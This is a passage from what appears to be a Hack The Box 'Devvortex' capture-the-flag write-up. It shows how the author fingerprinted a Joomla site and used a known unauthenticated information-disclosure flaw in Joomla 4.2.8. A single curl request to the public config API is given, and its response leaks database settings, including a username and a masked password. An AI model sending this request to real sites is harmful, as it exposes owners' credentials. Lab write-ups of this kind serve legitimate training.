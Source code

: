 Through source code I observed that this site is a CMS from `Joomla`  so I enumerated further as a Joomla CMS and got its version file →

![Untitled](Devvortex/Untitled%203.png)

Now I looked for exploit related to it and I got one →

**[Joomla! v4.2.8 - Unauthenticated information disclosure](https://www.exploit-db.com/exploits/51334)**

I ran manually and I got the credentials through it →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Devvortex]
└─$ curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 27 Nov 2023 10:29:57 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Mon, 27 Nov 2023 10:29:57 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"<PASSWORD>","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```
{: .nolineno}
{: .nolineno}

